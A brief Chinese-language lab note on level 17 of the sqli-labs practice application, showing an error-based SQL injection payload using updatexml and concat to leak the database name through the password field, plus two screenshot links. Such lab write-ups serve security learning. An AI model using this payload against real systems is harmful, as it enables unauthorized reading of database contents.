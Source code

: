 title: sql-labs 17关

less-17——基于’的密码报错注入

注入语句：' and (updatexml(1,concat(0x7e, database(),0x7e),1))#

![image-20220330103508537](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330103508537.png)

![image-20220330103544359](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330103544359.png)